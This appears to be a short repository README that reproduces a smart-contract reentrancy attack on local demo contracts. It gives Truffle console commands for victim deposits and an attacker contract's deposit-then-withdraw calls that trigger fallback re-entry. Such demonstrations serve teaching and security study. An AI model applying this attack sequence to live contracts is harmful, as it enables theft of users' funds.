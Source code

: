 ## Reentrancy

Reproducing attack using these contracts.

Depositing some amount in 2 differents accounts balances:
```
$victim: var f = Reentrancy.deployed()
$victim: f.then(a=> a.deposit({value: 10, from : web3.eth.accounts[1]}))
$victim: f.then(a=> a.deposit({value: 20, from : web3.eth.accounts[0]}))
```
Attacker calls withdraw from a contract, so it will receive a payment and fallback function will be executed.
```
$attacker: var g = ReentrancyAttacker.deployed()
$attacker: g.then(a=> a.depositInContract({value : 5}))
$attacker: g.then(a=> a.withdrawFromContract())
```

